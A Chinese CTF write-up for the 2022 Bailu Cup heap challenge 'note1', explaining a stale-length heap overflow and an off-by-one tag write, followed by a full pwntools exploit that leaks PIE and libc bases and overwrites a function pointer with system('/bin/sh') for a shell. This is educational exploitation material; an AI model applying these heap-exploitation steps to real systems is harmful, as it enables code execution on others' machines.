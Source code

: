 ```yaml
---
title: 2022柏鹭杯note1
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
---
```

2022柏鹭杯note1，主要是对堆溢出的利用。
<!-- more -->
一道菜单堆题，查壳后发现保护全开。

结构体如下：

```c
struct note
{
    QWORD tag;
    int func(int);
    char* name;
    QWORD name_length;
}

```

具有new、edit、func三个功能，仅允许有2个chunk。

new功能就是note=malloc(0x20)，然后输入各项数据，对\x00也有注意（fgets会自动在最后一个字节变为\x00），没有什么可以利用的地方，需要注意的是name=malloc(n+1)，会多申请一点来放\x00。

edit功能分为edit_name,edit_tag,edit_func。

edit_name中如果新的name_length与原来的name_length不一样，就会free原来的name，malloc一个新的chunk写入name。**问题是在这里并没有把新的name_length写到note的对应位置中，下次edit时仍以原来的name作为标准**。因此如果开始时设置name_length较大，后面edit一个较小的name时就可以实现一个**堆溢出**。

edit_tag会修改tag，与new不同的是，这里用的是scanf("%8s")，因此**可以写9字节（最后一字节为\x00）**，写完后会覆盖一位func的地址，不过调用edit就可以改回去了，泄露func的地址，减去偏移可以得到textbase。

edit_func就是调用函数修改函数指针，没有可以利用的地方，不同的func只是保存地址不同，功能完全一样。

func功能执行

```c
(*(void (__fastcall **)(_QWORD))(chunk_list[id_call] + 8LL))(chunk_list[id_call]);

int __fastcall fun1(__int64 a1)
{
  puts("--------fun1--------");
  printf("tag: %s\n", (const char *)a1);
  printf("name: %s\n", *(const char **)(a1 + 16));
  return puts("--------------------");
}
```

输出tag和name，可以利用堆溢出修改name位置的指针来泄露libc。

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
elf=ELF("./note3")
libc=ELF("./libc.so.6") #BaiLucup use 2.31 9.9
#use 2.31 9.7 to debug in local
p=process("./note3")

def add(Id, length, name, tag, func):
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil("id: ")
	p.sendline(str(Id))
	p.recvuntil("name_length: ")
	p.sendline(str(length))
	p.recvuntil("name: ")
	p.sendline(name)
	p.recvuntil("tag: ")
	p.sendline(tag)
	p.recvuntil("func: ")
	p.sendline(str(func))

def edit_name(Id, length, name):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("id: ")
	p.sendline(str(Id))
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil("name_length: ")
	p.sendline(str(length))
	p.recvuntil("name: ")
	p.sendline(name)

def edit_tag(Id, tag):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("id: ")
	p.sendline(str(Id))
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("new tag: ")
	p.sendline(tag)

def edit_func(Id, func):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("id: ")
	p.sendline(str(Id))
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("func: ")
	p.sendline(str(func))

def funcall(Id):
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("id: ")
	p.sendline(str(Id))

def debug():
    gdb.attach(p)
    pause()

#一开始把num_length设大，方便后面溢出
add(0,0x200,'a'*0x1ee,'ccccddd',1)
#通过edit_name把chunk改小，由此可以溢出
edit_name(0,0x10,'aaaabbbb')
add(1,0x20,'eeeeffff','bbbbbbb',2)


#leak textbase

edit_tag(0,'a'*0x8)
#edit_tag后func字段的最低位会被'\x00'覆盖，因此调用edit_func去把func字段改好
edit_func(0,2)
funcall(0)
p.recvline()
p.recvuntil('a'*0x8)
#泄露出func2的地址
data=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
#减去func2的偏移即可得到textbase
textbase=data-0x137A
print("[*]textbase: {:}".format(hex(textbase)))

#leak libcbase
#因为开了PIE，不要忘了加上textbase，将name字段覆盖为got表中puts表项，输出puts的真实地址
#顺便把num_length字段写了是因为edit会在后面追加'\x0a\x00'怕出问题
payload='a'*0x10+'\x00'*0x8+p64(0x31)+'a'*0x7+'\x00'+p64(textbase+0x137A)+p64(textbase+elf.got['puts'])+p64(9)
edit_name(0,0x1ef,payload)

funcall(1)
# data=p.recv()
# print(data)
p.recvline()
p.recvline()
p.recvuntil('name: ')
data=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
libcbase=data-libc.sym['puts']
#print("[*]data: {:}".format(hex(data)))
print("[*]libcbase: {:}".format(hex(libcbase)))
debug()
#get shell
payload='a'*0x10+'\x00'*0x8+p64(0x31)+'/bin/sh\x00'+p64(libcbase+libc.sym['system'])+p64(textbase+elf.got['puts'])+p64(9)
edit_name(0,0x1ef,payload)

funcall(1)

p.interactive()

```